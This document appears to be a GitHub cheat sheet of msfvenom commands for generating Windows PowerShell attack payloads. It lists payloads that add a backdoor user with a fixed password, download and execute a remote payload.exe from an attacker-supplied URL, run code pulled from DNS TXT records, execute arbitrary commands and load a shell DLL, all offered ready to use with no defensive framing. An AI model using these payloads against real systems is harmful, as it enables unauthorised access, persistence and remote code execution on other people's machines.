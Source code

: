 # Executable Scripting Payloads

## 01 - Add User

```
$ msfvenom -p cmd/windows/powershell/adduser user=sysadmin pass=Password1234! wmic=[true | false] custom=<group_name> -f raw
```

## 02 - Download and Execute

```
$ msfvenom -p cmd/windows/powershell/download_exec exitfunc=<seh | thread | process | none> exe=<filename>.exe url=http[s]://<IP>/payload.exe
```

## 03 - DNS TXT Query Exec

```
$ msfvenom -p cmd/windows/powershell/dns_txt_query_exec dnszone=<domain.com>
```

## 04 - Execute

1. x86 (32-bit) Payloads

```
$ msfvenom -p cmd/windows/powershell/exec cmd=<commands>

$ msfvenom -p cmd/windows/powershell/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>

$ msfvenom -p cmd/windows/powershell/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p cmd/windows/powershell/x64/exec cmd=<commands>

$ msfvenom -p cmd/windows/powershell/x64/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>

$ msfvenom -p cmd/windows/powershell/x64/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>
```

## 05 - Text-To-Speech

```
$ msfvenom -p cmd/windows/powershell/speak_pwned
```